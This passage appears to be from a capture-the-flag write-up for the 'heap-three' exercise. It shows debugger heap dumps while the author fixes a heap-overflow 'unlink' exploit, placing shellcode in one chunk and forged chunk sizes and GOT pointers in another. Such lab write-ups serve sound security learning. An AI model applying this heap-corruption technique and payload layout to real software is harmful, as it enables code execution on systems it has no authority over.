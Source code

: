 ```
0xf7e69058│+0x0058 0x0804c1f4ffffffad
0xf7e69060│+0x0060 0x000000000804c1f4
0xf7e69068│+0x0068 0x0000000000000000
0xf7e69070│+0x0070 0x0000000000000000
0xf7e69078│+0x0078 0x000fff8900000000
0xf7e69080│+0x0080 0x0000000000000000
0xf7e69088│+0x0088 0x0000000000000000
0xf7e69090│+0x0090 0x0000000000000000
0xf7e69098│+0x0098 0x0000000000000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "heap-three", stopped, reason: SIGSEGV
```

It made it to executing our shell code, but our shell code isn't right... what went wrong? We can see what happened in the fact that our nops are broken up. In writing the exploit I forgot that I would be writing to the address we gave +8... This means that rather than our last couple bytes of shellcode being what we expected, the offset when it starts ends up being overwritten by the address of the GOT!!! All we need to do is reduce the size of the nops and lower our offset from the start of the heap to match. We could go no nops, but I'll leave 4 there for funsies. The heap offset will be reduced from 16 to 12, too.

Now this is what our heap looks like after the first copy:
```
0xf7e69000│+0x0000 0x0000002900000000
0xf7e69008│+0x0008 0x0487d56890909090
0xf7e69010│+0x0010 0x000000000000c308
0xf7e69018│+0x0018 0x0000000000000000
0xf7e69020│+0x0020 0x0000000000000000
0xf7e69028│+0x0028 0x0000002900000000
0xf7e69030│+0x0030 0x4141414141414141
0xf7e69038│+0x0038 0x4141414141414141
0xf7e69040│+0x0040 0x4141414141414141
0xf7e69048│+0x0048 0x4141414141414141
0xf7e69050│+0x0050 0xffffffb0fffffffc
0xf7e69058│+0x0058 0x0804c13041414141
0xf7e69060│+0x0060 0x00000000f7e6900c
0xf7e69068│+0x0068 0x0000000000000000
0xf7e69070│+0x0070 0x0000000000000000
0xf7e69078│+0x0078 0x000fff8900000000
```

Everything is looking promising, we have our addresses in the right places for chunk C, and our shellcode visible in chunk A. We can even see our sizes in chunk C. Let's go to the first free.

```
0xf7e69000│+0x0000 0x00000028ffffffac
0xf7e69008│+0x0008 0x0487d56890909090
0xf7e69010│+0x0010 0x0804c1300000c308
0xf7e69018│+0x0018 0x0000000000000000
0xf7e69020│+0x0020 0x0000000000000000
0xf7e69028│+0x0028 0x0000002900000000
0xf7e69030│+0x0030 0x4141414141414141
0xf7e69038│+0x0038 0x4141414141414141
0xf7e69040│+0x0040 0x4141414141414141
0xf7e69048│+0x0048 0x4141414141414141
0xf7e69050│+0x0050 0xffffffb0fffffffc
0xf7e69058│+0x0058 0x0804c1f4ffffffad
0xf7e69060│+0x0060 0x000000000804c1f4
0xf7e69068│+0x0068 0x0000000000000000
0xf7e69070│+0x0070 0x0000000000000000
0xf7e69078│+0x0078 0x000fff8900000000
```
